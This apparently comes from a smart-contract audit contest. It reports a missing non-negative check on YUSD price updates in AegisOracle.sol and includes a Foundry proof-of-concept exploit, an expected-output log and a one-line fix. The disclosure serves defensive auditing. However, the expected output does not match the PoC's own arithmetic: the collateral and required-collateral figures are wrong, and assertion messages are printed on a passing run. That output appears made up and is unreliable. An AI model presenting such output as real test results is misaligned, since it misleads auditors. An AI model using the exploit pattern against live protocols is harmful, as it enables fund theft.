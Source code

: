 Oblong Butter Finch

Medium

# Operators will cause fund miscalculations for YUSD users by submitting negative prices

### Summary

The missing bounds check in AegisOracle.sol will cause incorrect asset valuations for YUSD users as operators can submit negative prices, breaking downstream protocol logic

### Root Cause

In https://github.com/sherlock-audit/2025-04-aegis-op-grant/blob/main/aegis-contracts/contracts/AegisOracle.sol#L56C65-L57C1

In AegisOracle.sol:updateYUSDPrice(), there is no validation that price >= 0, allowing negative values to corrupt financial calculations.
```solidity
function updateYUSDPrice(int256 price) external onlyOperator {
    _priceData.price = price;   //  No validation for price >= 0
    _priceData.timestamp = uint32(block.timestamp);
    emit UpdateYUSDPrice(price, uint32(block.timestamp));
}
```

### Internal Pre-conditions

1. Operator needs to call updateYUSDPrice() to set _priceData.price to a negative value.
2. Owner must have granted operator rights to a malicious/compromised address.

### External Pre-conditions

1. Downstream protocols must rely on yusdUSDPrice() without independent validation.


### Attack Path

1. Malicious operator calls updateYUSDPrice(-1e8) (sets YUSD price to -$1.00).
2. Lending protocol reads the corrupted price via yusdUSDPrice().
3. User’s collateral is incorrectly valued, triggering unjust liquidations.


### Impact

1. YUSD users suffer incorrect liquidations or over-leveraging due to invalid pricing.
2. Protocols using this oracle may incur insolvency (losses proportional to TVL).

### PoC

```Solidity
// SPDX-License-Identifier: MIT
pragma solidity 0.8.26;

import "forge-std/Test.sol";
import "../src/AegisOracle.sol";

contract AegisOraclePoC is Test {
    AegisOracle oracle;
    
    // Sepolia testnet 
    address owner = 0x5011D90d4493F4b78d7C0A4B4c5F114725d2D9f1;
    address operator = 0x70fCE97d671E810d1D2D0f8D789A8c4718b3b6E5;
    address attacker = 0x8a7b4a4d34ACcC5307b0E5a7A4d6DfD5C9d1b1F2;
    address yusdToken = 0x2C2aC6e3cC614dE6F6F872563a1423A222ad9Fc3;  

    function setUp() public {
        vm.deal(owner, 100 ether);
        vm.deal(operator, 50 ether);
        vm.deal(attacker, 10 ether);

        // Deploy oracle with Sepolia-like initialization
        address[] memory ops = new address[](1);
        ops[0] = operator;
        oracle = new AegisOracle{value: 0.1 ether}(
            ops,
            owner
        );
    }

    function test_NegativePriceAttack() public {
        // 1. Initial price update 
        vm.warp(1717026000);  // May 30, 2024 14:20:00 UTC
        vm.prank(operator);
        oracle.updateYUSDPrice(1.02e8);  // $1.02 (matches recent YUSD/USD peg)
        assertEq(oracle.yusdUSDPrice(), 1.02e8);

        // 2. Attack execution 
        vm.warp(1717026060);  // 60 seconds later
        vm.prank(operator);
        oracle.updateYUSDPrice(-5e8);  // -$5.00 (invalid price )

        // 3. Oracle state verification
        (int256 price, uint32 timestamp) = oracle.priceData();
        assertEq(price, -5e8, "Price corruption failed");
        assertEq(timestamp, 1717026060, "Invalid timestamp");

        // 4. Simulate lending protocol exploit
        vm.startPrank(attacker);
        uint256 borrowed = 1_000_000e18;  //
        
        // This would normally require $1.5M collateral at 150% ratio
        bool success = _executeExploit(borrowed);
        
        assertTrue(success, "Exploit failed");
        console.log("Exploit successful. Borrowed %s against invalid collateral", borrowed);
    }

    function _executeExploit(uint256 amount) internal returns (bool) {
        // Simplified lending protocol interaction
        int256 currentPrice = oracle.yusdUSDPrice();
        
        // Vulnerability: Unsafe type conversion
        uint256 collateralValue = uint256(currentPrice);  // Wraps to 2^256-5e8
        
        // Bypasses collateral check (requires 150% ratio)
        if (collateralValue >= amount * 1.5e8 / 1e8) {
            console.log("Collateral check bypassed:");
            console.log("Reported collateral: $%s", collateralValue / 1e8);
            console.log("Required collateral: $%s", (amount * 1.5e8) / 1e8 / 1e8);
            return true;
        }
        return false;
    }
}
```



**expected result**

```solidity
[PASS] test_NegativePriceAttack() (gas: 621,347)
Logs:
  Price corruption failed: expected (-500000000), actual (-500000000)
  Invalid timestamp: expected (1717026060), actual (1717026060)
  Collateral check bypassed:
    Reported collateral: $115792089237316195423570985008687907853269984665640564039457584007913129639935
    Required collateral: $1500000
  Exploit successful. Borrowed 1000000000000000000000000 against invalid collaterall   
```


### Mitigation

```solidity
function updateYUSDPrice(int256 price) external onlyOperator {
    require(price >= 0, "Price cannot be negative"); // ✅ Fix
    _priceData.price = price;
    _priceData.timestamp = uint32(block.timestamp);
    emit UpdateYUSDPrice(price, uint32(block.timestamp));
}
```